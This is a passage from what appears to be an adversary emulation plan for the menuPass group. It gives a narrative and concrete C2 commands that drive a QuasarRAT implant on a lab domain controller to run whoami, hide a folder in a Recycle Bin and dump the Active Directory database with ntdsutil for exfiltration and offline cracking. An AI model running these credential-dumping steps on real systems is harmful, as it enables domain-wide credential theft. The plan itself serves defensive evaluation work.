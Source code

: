 1. <http://jsac.jpcert.or.jp/archive/2022/pdf/JSAC2022_9_yanagishita-tamada-nakatsuru-ishimaru_en.pdf>
1. <https://jsac.jpcert.or.jp/archive/2021/pdf/JSAC2021_202_niwa-yanagishita_en.pdf>
1. <https://media.kasperskydaily.com/wp-content/uploads/sites/86/2021/02/25140359/greatidea_A41_v1.0.pdf>

 <details><summary>:link: Click to expand source code links table</summary></details>

<br>

## Step 5 - Credential Access and Discovery

### :microphone: Voice Track

After gaining access on the Subsidiary A Domain Controller `parrotmon (10.10.10.4)`,
menuPass uses the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)` to execute the native `ntdsutil.exe` utility to export
the Active Directory database to `ntds.dit`. Then, menuPass uses QuasarRAT to
exfiltrate the generated `ntds.dit` and `SYSTEM` hive files then dumps
credentials offline to retrieve hashes of authenticated users. These hashes are
cracked offline to retrieve plaintext passwords for the domain users.

menuPass then performs an internal port scan to search for open RDP and SMB
ports on the network. A reverse nslookup is then performed against the active
IP addresses to resolve the hostnames.

### ☣️ Procedures

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `whoami` to get the user SID of kizumi.da

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"whoami.exe", "proc_args": "/all"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, create folder `$RCXNYCG` in kizumi.da's
Recycle Bin (`C:\$Recycle.Bin\S-1-5-21-156812349-472333277-3174882868-1109\$RCXNYCG`).

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"cmd.exe", "proc_args": "/c mkdir C:\\$Recycle.Bin\\S-1-5-21-156812349-472333277-3174882868-1109\\$RCXNYCG"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, execute `ntdsutil.exe` to generate `ntds.dit`.

  ```
  ./evalsC2client.py --set-task 7C2AA823335FAE8D17090D191845A725 '{"type": 1, "proc_path":"ntdsutil.exe", "proc_args": "\"ac i ntds\" \"i\" \"c f C:\\$Recycle.Bin\\S-1-5-21-156812349-472333277-3174882868-1109\\$RCXNYCG\" q q"}'
  ```

* Using the QuasarRAT implant on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`, exfiltrate the generated `ntds.dit` file.
